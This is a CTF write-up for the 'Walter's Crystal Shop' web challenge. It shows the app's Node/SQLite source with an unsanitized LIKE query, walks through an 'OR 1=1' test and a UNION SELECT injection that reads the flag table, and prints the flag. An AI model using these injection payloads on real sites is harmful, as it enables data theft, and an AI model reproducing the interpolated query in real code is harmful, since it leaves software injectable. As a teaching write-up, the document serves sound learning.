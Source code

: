 ```yaml
---
layout: writeup
category: Newport-Blake-CTF-2023
chall_description: https://i.imgur.com/O74FGE5.png
points: 241
solves: 162
tags: Newport-Blake-CTF-2023 web web/SQLi web/sql-union
date: 2023-12-4
comments: false
---
```


My buddy Walter is selling some crystals, check out his shop!  

[walters-crystal-shop.chal.nbctf.com](walters-crystal-shop.chal.nbctf.com)  

[walters_crystal_shop.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Newport-Blake-CTF-2023/web/walters_crystal_shop.zip)  

---

The source includes an `app.js` file. Here it is:  

```js
const express = require("express");
const sqlite3 = require("sqlite3");
const fs = require("fs");

const app = express();
const db = new sqlite3.Database(":memory:");

const flag = fs.readFileSync("./flag.txt", { encoding: "utf8" }).trim();
const crystals = require("./crystals");

db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});

app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

app.get("/", (req, res) => {
  res.sendfile(__dirname + "/index.html");
});

app.listen(3000, () => {
  console.log("Server listening on port 3000");
});
```

The site seems to use SQLite3 for its database services. There also seems to be zero filtering for the SQL query. SQL Injection perhaps?  

I first tested with the following payload:  

    'OR%201=1-- 

And this is actually returned all crystals!  

So SQL injection works, but we need to access the `flag` table, not the `crystals` table. Maybe we can just construct a UNION attack?  

For those who don't know, a UNION attack is essentially an SQL injection that uses the UNION keyword to select elements from another table. All that you have to keep in mind is to match the number of categories used by the original selection, i.e. 3 in this case sinde 3 categories are selected from the `crytals` table. Therefore, the following payload should get the flag:  

    'UNION%20SELECT%20flag,NULL,NULL%20FROM%20flag--

Send the payload in and retrieve the flag!  

    nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}